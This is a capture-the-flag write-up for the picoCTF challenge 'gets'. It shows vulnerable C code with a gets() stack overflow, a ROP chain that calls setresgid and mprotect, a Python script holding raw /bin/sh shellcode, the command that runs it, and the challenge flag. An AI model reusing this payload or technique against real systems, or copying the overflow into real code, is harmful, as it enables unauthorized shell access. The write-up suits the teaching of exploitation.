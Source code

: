 ## exploit

```C
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 16

void vuln() {
  char buf[16];
  printf("GIVE ME YOUR NAME!\n");
  return gets(buf);

}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  

  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  vuln();
  
}
```

The vuln program is an  elf 32-bit file statically linked.
With checksec I discovered NX bit enabled with no canary so we can exploit this program in very different ways.

ASLR is enabled.

Obviusly I focused on vuln function.

I decided for this exploit to make a rop chain that:
* call setresgid with correct id in order to drop the right privileges to read the flag file
* call `mprotect` function in order to get heap space `RWX`
* call `gets` function and pass shellcode in the area passed as argument to mprotect function
* insert shellcode via stdin


from ropper I selected one gadget that simply performs 3 `pop` and one `ret`, in order to have the right stack layout for each functions above.

So here some addresses: 
```
	0806cc40 - setresgid
	0806f050 - pop pop pop ret gadget - used between the calls to clean stak layout.
	0806e0f0 - mprotect
	0804f120 - gets
```

To bypass nx bit I decided to makes the first 0x100 bytes of the heap rwx starting from `0x080e0000`.

The next gets function takes this address as arguments and via stdin passed the shellcode that simply execve `/bin/sh`.

Gets function will reads a line from stdin until `0x0a` is reached, so to pass the shellcode I simply insert a `0x0a` byte between rop string and shellcode.



Here `att.py` file:


```python

a="\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"+"\x40\xcc\x06\x08"*2+"\x50\xf0\x06\x08"+"\xe8\x03\x00\x00"*3+"\xf0\xe0\x06\x08"+"\x50\xf0\x06\x08"+"\x00\xb0\x0e\x08" + "\x00\x01\x00\x00" + "\x07\x00\x00\x00"+"\x20\xf1\x04\x08"+"\x00\xb0\x0e\x08"*4+"\x0a"
a+="\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"
print(a)
```

```bash
$ (python /tmp/a/att.py;cat) |  ./gets
```

##### flag: picoCTF{rOp_yOuR_wAY_tO_AnTHinG_cfdfc687}














